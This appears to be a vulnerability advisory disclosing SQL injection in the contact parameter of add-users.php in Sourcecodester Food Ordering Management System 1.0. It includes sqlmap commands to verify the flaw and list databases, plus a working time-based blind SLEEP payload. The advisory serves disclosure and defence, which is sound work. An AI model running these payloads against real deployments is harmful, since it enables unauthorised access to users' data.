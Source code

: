 
# SQL Injection vulnerability was discovered from Sourcecodester Food Ordering Management System 1.0 (add-users.php)

Affected Project: Sourcecodester Food Ordering Management System 1.0
Official Website: https://www.sourcecodester.com/php/15689/food-ordering-management-system-php-and-mysql-free-source-code.html
Version: 1.0

Related Code file: add-users.php

Injection parameter: contact


## Vulnerability Analysis

1. Lack of Input Validation and Sanitization:
The contact parameter fields are directly used in the SQL query without any sanitization or validation. This allows an attacker to manipulate the SQL query by injecting malicious SQL code.

2. Use of Plain SQL Queries:
The script likely uses plain SQL queries to interact with the database. Without prepared statements, this approach is highly vulnerable to SQL injection.

## Demonstraation

Below is the users.php. By clicking on **Add** on the right bottom side, we can access add-user.php.

`http://172.16.76.1/foms/user.php`

![image](https://github.com/jadu101/CVE/assets/76433661/d0dfe8ac-c4a7-4659-8820-6badeaaf77e6)

We will first intercept the traffic using Burp Suite:

![image](https://github.com/jadu101/CVE/assets/76433661/d0fb3ab7-30d9-4bf8-898e-96e8b2383110)

Save the intercepted login request to a .txt file and execute sqlmap towards it. 

parameter contact is vulnerable to time-based blind sql injection

Below commands verifies the vulnerability:

`sqlmap -r foms-add-users-php.txt --batch`

![image](https://github.com/jadu101/CVE/assets/76433661/f3eeb76f-0be4-4d69-a3f2-b528be8ee3a3)

```
---
Parameter: contact (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=sdf&password=sdf&name=sdf&email=tese@sdf.cd&contact=123 AND (SELECT 5585 FROM (SELECT(SLEEP(5)))zByJ)&address=123&role=Customer&verified=0&deleted=0&action=
---
```

Below commnd will list databases:

`sqlmap -r foms_login_php.txt --batch -p contact --dbs`

![image](https://github.com/jadu101/CVE/assets/76433661/10add061-736f-40eb-a74d-9732f4ef6716)

